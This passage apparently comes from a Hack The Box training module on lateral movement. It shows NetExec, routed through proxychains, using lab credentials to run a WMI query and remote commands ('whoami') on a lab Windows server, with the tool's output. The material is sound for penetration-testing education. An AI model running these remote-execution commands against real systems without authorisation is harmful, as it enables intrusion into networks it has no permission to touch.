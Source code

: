 Alternatively, we can use NetExec to run WMI queries or execute commands using WMI. To perform a query we can use the option `--wmi <QUERY>`:

```shell-session
BusySec@htb[/htb]$ proxychains4 -q netexec wmi 172.20.0.52 -u helen -p RedRiot88 --wmi "SELECT * FROM Win32_OperatingSystem"
RPC         172.20.0.52  135    SRV02            [*] Windows 10 / Server 2019 Build 17763 (name:SRV02) (domain:inlanefreight.local)
WMI         172.20.0.52  135    SRV02            [+] inlanefreight.local\helen:RedRiot88 (Pwn3d!)
WMI         172.20.0.52  135    SRV02            Caption => Microsoft Windows Server 2019 Standard
WMI         172.20.0.52  135    SRV02            Description =>
WMI         172.20.0.52  135    SRV02            Name => Microsoft Windows Server 2019 Standard|C:\Windows|\Device\Harddisk0\Partition4
WMI         172.20.0.52  135    SRV02            Status => OK  
WMI         172.20.0.52  135    SRV02            CSCreationClassName => Win32_ComputerSystem
...SNIP...
```

To execute commands we can use the protocol `wmi` with the option `-x <COMMAND>`. Unlike impacket `wmiexec.py`, netexec can retrieve the output using WMI rather than SMB:
```shell-session
BusySec@htb[/htb]$ proxychains4 -q netexec wmi 172.20.0.52 -u helen -p RedRiot88 -x whoami
RPC         172.20.0.52  135    SRV02            [*] Windows 10 / Server 2019 Build 17763 (name:SRV02) (domain:inlanefreight.local)
WMI         172.20.0.52  135    SRV02            [+] inlanefreight.local\helen:RedRiot88 (Pwn3d!)
WMI         172.20.0.52  135    SRV02            [+] Executed command: "whoami" via wmiexec
WMI         172.20.0.52  135    SRV02            inlanefreight\helen
```
